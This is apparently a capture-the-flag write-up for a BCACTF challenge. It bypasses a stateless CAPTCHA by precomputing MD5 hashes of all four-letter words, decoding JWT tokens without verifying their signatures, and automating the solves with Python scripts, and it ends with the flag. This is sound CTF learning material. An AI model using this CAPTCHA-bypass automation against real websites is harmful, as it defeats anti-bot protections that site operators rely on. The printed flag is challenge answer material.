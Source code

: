 ```yaml
---
created: 2024-06-09T18:06
updated: 2024-06-10T23:17
---
```


> Can you bypass this website's new stateless CAPTCHA system?

---

Seems to be a MD5 captcha system.

## First we will generate the entire hash table for 4 letter words.

```python
import hashlib  
import pickle  
  
md5_hash_table = {}  
for i in range(26 ** 4):  
    perm = ''  
    for j in range(4):  
        perm += chr(65 + (i // (26 ** j)) % 26)  
    md5_hash_table[hashlib.md5(perm.encode('utf-8')).hexdigest()] = perm  
  
with open("hash_table.pkl", "wb") as f:  
    pickle.dump(md5_hash_table, f)
```

## Then, we will solve the captcha, and get the flag.

```python
import pickle  
from tqdm import tqdm  
import jwt  
import requests  
  
with open("hash_table.pkl", "rb") as f:  
    loaded_hash_table = pickle.load(f)  
  
url = "http://challs.bcactf.com:30477/captcha"  
data = requests.post(url, json={"routeId": "/flag"}).json()  
for i in tqdm(range(data['total'])):  
    captchaToken, solved, total, done = data['captchaToken'], data['solved'], data['total'], data['done']  
    decoded = jwt.decode(captchaToken, algorithms=["HS256"], options={"verify_signature": False})  
    h = decoded['challengeId']  
    d = loaded_hash_table[h]  
    data = requests.post(url, json={"captchaToken": captchaToken, "word": d}).json()  
print(f"http://challs.bcactf.com:30477/flag?token={data['captchaToken']}")
```

Simple.

```
http://challs.bcactf.com:30477/flag?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjYXB0Y2hhSWQiOiJkOWE5ZThiNi1hODUwLTQ5NDQtYTEwNC0wMmJiYTYyNDJhMTMiLCJyb3V0ZUlkIjoiL2ZsYWciLCJjaGFsbGVuZ2VJZCI6bnVsbCwic29sdmVkIjo3NSwidG90YWwiOjc1LCJkb25lIjp0cnVlLCJpYXQiOjE3MTc5NzMwMzQsImV4cCI6MTcxNzk3MzA5NH0._XcYLLZL_YJ8GpngWfDsp_fAz-G_92NSXUEwoTIdhC4
```

> # The Flag
> bcactf{b33p_B0oP_iM_a_B0t_1b728b571b9a}
